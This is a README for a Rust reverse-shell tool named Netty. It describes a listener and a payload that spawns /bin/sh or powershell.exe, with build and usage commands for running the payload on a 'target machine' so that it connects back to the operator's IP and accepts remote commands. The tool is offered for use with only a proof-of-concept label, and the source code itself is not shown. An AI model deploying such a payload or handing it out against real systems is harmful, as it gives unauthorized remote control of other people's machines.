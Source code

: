# Netty - A Proof-of-Concept TCP Reverse Shell

## Overview

Netty is a simple TCP reverse shell written in Rust. It consists of two main components: a listener and a payload. The
payload connects back to the listener, allowing the listener to execute commands on the payload's machine.

## Features

- **Listener Mode**: Waits for incoming connections on a specified IP address and port.
- **Payload Mode**: Connects to the listener and provides a remote shell.
- **Cross-Platform Shell**: Uses `/bin/sh` on Unix-like systems and `powershell.exe` on Windows.
- **Asynchronous I/O**: Built with `tokio` for non-blocking network operations.
- **Simple Command-Line Interface**: Easy-to-use CLI for starting the listener or the payload.

## How It Works

1. **The Listener**: You start the listener on your machine, specifying a port to listen on. It will wait for a TCP
   connection.

2. **The Payload**: You run the payload on the target machine, specifying the listener's IP address and port.

3. **The Connection**: The payload initiates a TCP connection to the listener.

4. **Remote Shell**: Once the connection is established, the listener can send shell commands to the payload. The
   payload executes these commands and sends the output back to the listener.

## Usage

First, clone the repository and build the project:

```bash
git clone <repository-url>
cd netty
cargo build --release
```

### 1. Start the Listener

On your machine, run the following command to start the listener on port `8080`:

```bash
./target/release/netty -l -p 8080
```

The listener will start and print "Listening...".

### 2. Run the Payload

On the target machine, run the following command, replacing `<your-ip>` with the IP address of the machine running the
listener:

```bash
./target/release/netty -a <your-ip> -p 8080
```

### 3. Execute Commands

Once the payload connects, you will see a "Connected to <ip>:<port>" message on the listener's terminal. You can now
type commands and press Enter to execute them on the target machine.

To close the connection, type `exit` in the listener's terminal.
